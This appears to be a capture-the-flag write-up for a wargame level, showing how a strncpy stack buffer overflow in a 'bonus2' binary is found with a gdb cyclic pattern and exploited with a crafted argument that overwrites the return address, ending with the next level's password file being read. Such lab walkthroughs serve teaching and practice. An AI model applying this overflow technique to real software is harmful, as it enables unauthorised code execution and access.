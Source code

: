 # Bonus 2

`su bonus2 #579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

## Steps

We have abinary that takes 2 arguments a name, and somthing else.
This uses strncpy again, we think we can reproduce the overflow using no \0. It will copy 40 chars of the first argument.
Lets try that

```bash
$ ./bonus2 0123456789012345678901234567890123456789 dd
Hyvää päivää 0123456789012345678901234567890123456789dd // Should only print the numbers
```

Let's try with an overflow
```bash
(gdb) r 0123456789012345678901234567890123456789 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```

We just have to replace at the index
```bash
./bonus2 0123456789012345678901234567890123456789 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5' + '\xbf\xff\xf8\xaf'[::-1] + 'a7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'")

$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```


